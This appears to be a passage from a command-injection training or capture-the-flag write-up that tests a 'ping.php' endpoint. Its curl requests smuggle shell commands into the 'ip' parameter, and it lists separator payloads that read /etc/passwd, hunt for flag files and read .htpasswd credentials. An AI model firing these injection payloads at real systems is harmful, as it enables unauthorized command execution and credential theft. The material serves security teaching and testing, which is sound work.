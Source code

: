 #### Technical Skills

1. **Identifying Injection Points**

   **Testing Methodology**:
   ```bash
   # Step 1: Normal input
   curl "http://target/ping.php?ip=127.0.0.1"
   
   # Step 2: Test with special characters
   curl "http://target/ping.php?ip=127.0.0.1;"
   curl "http://target/ping.php?ip=127.0.0.1|ls"
   curl "http://target/ping.php?ip=127.0.0.1%26%26whoami"
   
   # Step 3: Confirm with output
   curl "http://target/ping.php?ip=127.0.0.1;echo%20INJECTED"
   ```

   **Skills Developed**:
   - Input validation testing
   - Understanding shell metacharacters
   - URL encoding
   - HTTP request manipulation

2. **Command Injection Techniques**

   **Shell Separators**:
   ```bash
   # Semicolon - runs both commands
   ; cat /etc/passwd
   
   # Pipe - passes output to next command
   | cat /etc/passwd
   
   # AND operator - runs if first succeeds
   && cat /etc/passwd
   
   # OR operator - runs if first fails
   || cat /etc/passwd
   
   # Backticks - command substitution
   `cat /etc/passwd`
   
   # Dollar parentheses - command substitution
   $(cat /etc/passwd)
   ```

   **Skills Developed**:
   - Shell scripting knowledge
   - Command chaining
   - Data exfiltration
   - Bypassing filters

3. **File System Navigation**
   ```bash
   # Find interesting files
   ; find / -name "flag*" 2>/dev/null
   
   # Read sensitive files
   ; cat /etc/passwd
   ; cat /var/www/.htpasswd
   
   # List directories
   ; ls -la /home
   ; ls -la /var/www
   ```
